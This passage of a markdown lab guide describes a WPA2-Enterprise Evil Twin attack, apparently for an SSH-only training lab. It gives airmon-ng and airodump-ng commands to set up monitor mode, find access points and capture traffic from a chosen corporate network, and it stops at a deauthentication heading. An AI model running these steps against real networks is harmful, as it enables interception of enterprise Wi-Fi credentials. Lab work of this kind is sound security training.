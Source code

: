 
# 🛡️ WPA2-Enterprise
## Time to perform this attack: 20 minutes

## 📍 Goal
> *Simulate a WPA2-Enterprise Evil Twin attack in a SSH-only lab, using only CLI tools. We are going to*
- Capture the authentication handshake
- Analyze EAP communications
- Extract useful information (CA, server certs)
- Replay the attack using hostapd-mana
- Connect with wpa_supplicant for testing

---

## ⚙️ Monitor Interface Setup

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

## 🎯 Discovering APs

- All the APs on both frequencies:
```bash
sudo airodump-ng --band abg wlan0mon
CTRL-C
```
- Now let´s focus on channel where we found MGT network 
```bash
channel=44
sudo airodump-ng -c ${channel} wlan0mon
CTRL-C
```
- Finally, let's dump the info for the selected BSSID and ESSID
```bash
mkdir MGT
cd MGT
channel=44
dumpfile='dump-wpa-mgt'
bssid='F0:9F:C2:71:22:1A'
essid='wifi-corp'
sudo airodump-ng -c ${channel}  -w ${dumpfile} --output-format pcap --essid ${essid} --bssid ${bssid} wlan0mon
```

## 💣 DEAUTH
